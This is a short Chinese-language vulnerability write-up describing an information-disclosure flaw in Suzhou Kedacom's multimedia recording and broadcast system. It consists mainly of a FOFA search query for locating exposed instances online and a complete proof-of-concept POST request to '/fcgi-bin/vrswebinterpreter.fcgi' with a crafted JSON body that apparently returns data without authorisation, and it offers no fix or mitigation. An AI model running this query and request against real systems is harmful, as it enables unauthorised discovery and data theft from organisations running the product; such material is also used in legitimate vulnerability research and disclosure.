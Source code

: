 # 苏州科达科技股份有限公司多媒体录播系统存在信息泄露漏洞

# 一、漏洞简介
苏州科达科技股份有限公司多媒体录播系统存在信息泄露漏洞

# 二、影响版本
多媒体录播系统

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ fofa`body="kedaname" || body="KEDACOM" || body="www.kedacom.com" || body="科达多媒体录播系统"`
+ 特征

![1732672177570-ed8fba35-95c1-4ef3-8574-06fdfec6bb65.png](./img/VGSRQytOV8lBTDzI/1732672177570-ed8fba35-95c1-4ef3-8574-06fdfec6bb65-330998.png)

# 四、漏洞复现
```plain
POST /fcgi-bin/vrswebinterpreter.fcgi HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

{"msgid":3061,"usermoid":"11111111-11111111-11111111-11111111","userdomainmoid":"11111111-11111111-11111111-11111111","rightmask":268435455,"content":{"userdomainmoid":"","StartPos":0,"EndPos":14,"IncludeName":""}}
```

![1732672209962-92d83e90-ec83-4f79-bd10-31b2bd38a8e1.png](./img/VGSRQytOV8lBTDzI/1732672209962-92d83e90-ec83-4f79-bd10-31b2bd38a8e1-754019.png)



> 更新: 2024-11-27 10:00:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qwngpamuavad9xcl>